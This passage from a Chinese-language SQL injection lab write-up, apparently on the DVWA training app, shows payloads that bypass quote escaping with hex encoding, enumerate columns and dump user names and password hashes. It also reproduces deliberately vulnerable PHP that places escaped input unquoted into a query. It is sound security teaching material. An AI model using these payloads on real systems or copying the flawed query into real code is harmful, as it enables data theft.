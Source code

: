 #### 获取字段名

需要注意的是，在Med等级引号会被转义，但实际上可以用16进制绕过转义

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

![image-20220822171814136](.\Lab7_SQL_Injection.assets\image-20220822171814136.png)

**发现字段名： user_id, first_name, last_name, user, password, avatar, last_login, failed_login**

 

#### 尝试查表

```
1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```

![image-20220822172127381](.\Lab7_SQL_Injection.assets\image-20220822172127381.png)



## High

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
